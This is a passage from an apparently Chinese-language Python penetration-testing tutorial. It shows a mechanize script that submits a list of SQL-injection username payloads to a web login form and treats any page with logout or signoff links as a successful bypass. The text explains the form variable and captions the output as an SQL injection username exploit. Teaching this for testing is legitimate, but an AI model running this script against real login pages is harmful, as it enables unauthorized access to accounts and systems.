 ```py
pass1 = raw_input("Enter the Password ")

flag =0
p =0
while flag ==0:
  br.select_form(name =form)
  br.form[user1] = user_exp[p]
  br.form[pass1] = "aaaaaaaa"
  br.submit()
  data = ""
  for link in br.links():
    data=data+str(link)

  list = ['logout','logoff', 'signout','signoff']
  data1 = data.lower()

  for l in list:
    for match in re.findall(l,data1):
      flag = 1
  if flag ==1:
    print "t Success in ",p+1," attempts"
    print "Successfull hit --> ",user_exp[p]

  elif(p+1 == len(user_exp)):
    print "All exploits over "
    flag =1
  else :
    p = p+1
```

在上述代码中，我们使用了一个额外的变量`form`；在输出中，您必须选择表单名称。在`sql_form6.py`代码中，我假设用户名和密码包含在表单编号`1`中。

上述代码的输出如下：

![](img/19af076d-d080-46c5-857b-e5cd0670cc36.png)

SQL 注入用户名查询利用
